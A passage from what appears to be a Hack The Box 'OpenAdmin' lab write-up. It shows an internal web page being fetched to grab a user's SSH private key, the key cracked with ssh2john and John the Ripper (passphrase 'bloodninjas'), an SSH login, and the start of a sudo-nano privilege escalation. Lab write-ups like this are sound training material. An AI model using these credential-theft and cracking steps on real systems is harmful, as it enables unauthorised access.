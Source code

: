 ```
VirtualHost 127.0.0.1:52846
...
DocumentRoot /var/www/internal
```

So we have now everything we need to grab the private key of our 2nd system user.

```terminal
$ curl 127.0.0.1/52846/main.php
```

![Desktop View]({{ "/assets/img/openadmin/HTB-Images-Openadmin-privkeyssh.png" | relative_url }})

### Cracking Password
***
We retrieve the private key to exploit it with JohnTheRipper on our attacking machine.

Reference - johntheripper tool : <https://bytesoverbombs.io/cracking-everything-with-john-the-ripper-d434f0f6dc1c>

```terminal
$ sudo python2 ssh2john.py sshprivkey_joanna > joanna.hash
$ sudo john --wordlist=/usr/share/wordlists/rockyou.txt joanna.hash
```

![Desktop View]({{ "/assets/img/openadmin/HTB-Images-Openadmin-jtrfind.png" | relative_url }})

We crack the password of the user Joanna : `bloodninjas`

Fix the warning on the unprotected ssh key file and connect on with ssh to grab the flag user.

Reference - fix warning unprotected private key : <https://www.howtogeek.com/168119/fixing-warning-unprotected-private-key-file-on-linux>

```terminal
$ sudo chmod 600 sshprivkey_joanna
```

![Desktop View]({{ "/assets/img/openadmin/HTB-Images-Openadmin-sshjoanna.png" | relative_url }})

We flag the user to validate the compromission of the system users.

![Desktop View]({{ "/assets/img/openadmin/HTB-Images-Openadmin-flaguser.png" | relative_url }})

## **<span style='color:#c0392b'>[4] Privilege Escalation - Gain higher-level permissions</span>**
### Sudo Misconfiguration
***
```terminal
$ sudo -l
```

User Joanna may run the following commands with no password `(ALL) NOPASSWD: /bin/nano /opt/priv`
